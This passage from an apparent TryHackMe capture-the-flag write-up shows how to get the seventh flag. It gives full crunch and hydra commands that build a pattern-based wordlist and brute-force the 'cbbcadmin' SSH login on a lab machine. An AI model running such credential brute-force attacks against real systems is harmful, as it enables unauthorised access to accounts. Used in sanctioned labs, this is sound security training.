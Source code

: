 Got it?

### Task 1-7: The seventh flag

You need to look at the given hints. 6 out of 9 given letters and all in alphabetic. Somemore this is the password for the admin. Which admin? root? Neither one. It is the cbbcadmin.

![home](/assets/images/THM/2020-08-11-you-cant-solve-this/20.png)

Your task is to brute-force cbbcadmin's ssh shell using hydra. How about the wordlist? You need to create one using crunch.

```
crunch 9 9 ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz -t nY4s33@@@ -o password.lst
```

After that, brute-force cbbcadmin using the wordlist you just created.

```
hydra -t 64 -l cbbcadmin -P password.lst ssh://<Machine IP>
```

It going to take approximately 30 to 1 hour and it depends on your processor and internet connection. For THM kali machine, it takes 37 mins. (Why not give it a try)

![cbbc log](/assets/images/THM/2020-08-11-you-cant-solve-this/21.png)

We have the cbbcadmin ssh login credential. Let's capture the seventh flag.
